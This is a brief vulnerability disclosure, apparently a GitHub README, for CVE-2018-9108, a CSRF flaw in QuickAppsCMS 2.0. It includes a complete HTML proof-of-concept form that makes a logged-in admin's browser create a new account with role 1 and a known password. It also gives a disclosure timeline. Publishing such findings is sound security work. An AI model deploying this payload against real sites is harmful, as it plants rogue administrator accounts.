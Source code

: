 # CVE-2018-9108

## Summery
this vuln is CSRF vuln that allows to create any kinds of account.

When an attacker induce authorized victims to a malicious webpage and make them send requests. a victim creates an account without their intent.

## Target 
[Quickappscms 2.0](http://www.quickappscms.org/)

## Reproduce
This is a step how to reproduce.
 1. Access to the html page has payload content after you login to admin(/en_US/admin/) page.

Then you find an admin account is created.



## Payloads

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://your.cms.domain.example.com/en_US/admin/user/manage/add" method="POST">
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="email" value="test&#64;example&#46;com" />
      <input type="hidden" name="web" value="" />
      <input type="hidden" name="locale" value="" />
      <input type="hidden" name="status" value="0" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="password" value="testtest" />
      <input type="hidden" name="password2" value="testtest" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;" value="" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;&#91;&#93;" value="1" />
      <input type="hidden" name="welcome&#95;message" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

## Reference
 - [GitHub IssuePage](https://github.com/quickapps/cms/issues/187)

## Event
 - 2018-03-15 this vulnerability is discovered.
 - 2018-03-27 Open an issue on Github.
 - 2018-03-29 cve-2018-9108 is assigned.

